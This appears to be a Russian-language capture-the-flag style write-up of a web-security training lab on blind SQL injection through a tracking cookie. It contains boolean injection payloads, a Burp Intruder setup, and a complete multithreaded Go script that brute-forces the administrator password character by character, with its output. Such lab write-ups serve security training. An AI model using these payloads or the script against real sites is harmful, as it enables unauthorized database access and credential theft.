




# Lab: Blind SQL injection with conditional responses

Level: `PRACTITIONER`

## Description

This lab contains a blind `SQL` injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the `SQL` query are not returned, and no error messages are displayed. But the application includes a Welcome back message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind `SQL` injection vulnerability to find out the password of the `administrator` user.

> To solve the lab, log in as the `administrator` user.

# Solution

Сколько не проводи sqli и не проверяй ее на `boolean-based blind sqli` ничего не выходит, попробую
использовать `Burp Suite`:

```http
GET /filter?category=Corporate+gifts HTTP/2
Host: 0a040095036670ec806717d6005d00c6.web-security-academy.net
Cookie: TrackingId=qJD60eSIB5f7xY2c; session=9cBd0ljXaJLTAtyYzO7uZ2hKaw6LJm7w
Sec-Ch-Ua: "Not:A-Brand";v="8", "Chromium";v="156"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/156.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/jxl,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a040095036670ec806717d6005d00c6.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

```

Пока что из зацепок лишь `Cookie: TrackingID`

Попробуем проверить 2 payloads: 
1. `Cookie: TrackingId=qJD60eSIB5f7xY2c' AND '1'='2`
   Здесь казалось бы ничего особенного:
   
2. `Cookie: TrackingId=qJD60eSIB5f7xY2c' AND '1'='1`
    А вот здесь в ответе появилось:
    ```html
    <div>Welcome back!</div><p>|</p>
    ```
   

Чтож, мы подтвердили `blind-sqli`, теперь надо подтвердить наличие нужной таблицы:
`TrackingId=qJD60eSIB5f7xY2c' AND (SELECT 'a' FROM users LIMIT 1)='a`

Снова получив `Welcome back!` подтверждаем наличие таблицы

Теперь проверим наличие пользователя с именем `administrator`:
`' AND (SELECT 'a' FROM users WHERE username='administrator')='a`

Теперь нужно узнать длину пароля:
`' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`

И так пока не пропадет `Welcome back!`

Узнав, что длина пароля 20 символов остается самое сложное: перебор

1. Заходим в `Intruder`, выбираем тип атаки `Cluster bomb attack`
2. Создаем payload: 
    ```http
    Cookie: TrackingId=qJD60eSIB5f7xY2c' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§
    ```
    - Для первого перебора нужен пейлоад из чисел 1-20 с шагом 1.
    - Для второго перебора нужен пейлоад из алфавита и цифр в двух регистрах.
3. В настройках payload указываем grep: `Welcome back!`
4. Запускаем атаку



Но такой перебор выполняется очень долго в бесплатной версии.

Поэтому напишем скрипт на `Golang`.

`exploit.go`:
```go
package main

import (
	"fmt"
	"io"
	"net/http"
	"strings"
	"sync"
	"time"
)

const (
	// Сколько потоков использовать (можно поставить 20-30)
	maxWorkers = 30
	// Максимальная длина пароля (в лабе 20)
	maxPasswordLength = 20
	// Алфавит для перебора
	charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
)

func main() {
	// === НАСТРОЙКИ ЛАБОРАТОРИИ ===
	targetURL := "https://0a040095036670ec806717d6005d00c6.web-security-academy.net/filter?category=Corporate+gifts"
	sessionCookie := "9cBd0ljXaJLTAtyYzO7uZ2hKaw6LJm7w" 
	trackingID := "qJD60eSIB5f7xY2c"
	
	var password strings.Builder

	fmt.Println("[*] Начинаю брутфорс пароля...")

	// Перебираем позиции с 1 до maxPasswordLength
	for position := 1; position <= maxPasswordLength; position++ {
		foundChar := make(chan string, 1)
		var wg sync.WaitGroup

		// Запускаем воркеры для перебора символов на текущей позиции
		for _, char := range charset {
			wg.Add(1)
			go func(c rune) {
				defer wg.Done()
				if checkChar(targetURL, sessionCookie, trackingID, position, string(c)) {
					// Если нашли, отправляем в канал (неблокирующая отправка)
					select {
					case foundChar <- string(c):
					default:
					}
				}
			}(char)
		}

		// Ждем, пока все воркеры завершат работу (или найдут символ)
		wg.Wait()
		close(foundChar)

		// Получаем найденный символ
		char, ok := <-foundChar
		if !ok {
			fmt.Printf("\n[-] Символ для позиции %d не найден. Останавливаюсь.\n", position)
			break
		}

		password.WriteString(char)
		fmt.Printf("\r[+] Текущий пароль: %s", password.String())
	}

	fmt.Printf("\n\n[+] Готово! Пароль: %s\n", password.String())
}

// checkChar отправляет один запрос и проверяет, есть ли 'Welcome back!'
func checkChar(url, session, tracking string, pos int, char string) bool {
	// Формируем SQL-инъекцию
	// Обрати внимание на кавычки: '§a§' превращается в 'a'
	payload := fmt.Sprintf("%s' AND (SELECT SUBSTRING(password,%d,1) FROM users WHERE username='administrator')='%s", tracking, pos, char)
	
	req, err := http.NewRequest("GET", url, nil)
	if err != nil {
		return false
	}

	// Подставляем куки
	cookieStr := fmt.Sprintf("TrackingId=%s; session=%s", payload, session)
	req.Header.Set("Cookie", cookieStr)
	req.Header.Set("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64)")

	client := &http.Client{Timeout: 10 * time.Second}
	resp, err := client.Do(req)
	if err != nil {
		return false
	}
	defer resp.Body.Close()

	bodyBytes, err := io.ReadAll(resp.Body)
	if err != nil {
		return false
	}

	// Ищем маркер истины
	return strings.Contains(string(bodyBytes), "Welcome back!")
}
```

Результат:
```bash
[*] Начинаю брутфорс пароля...
[+] Текущий пароль: 57vww4k8o1l8cd0zuvgx

[+] Готово! Пароль: 57vww4k8o1l8cd0zuvgx
```


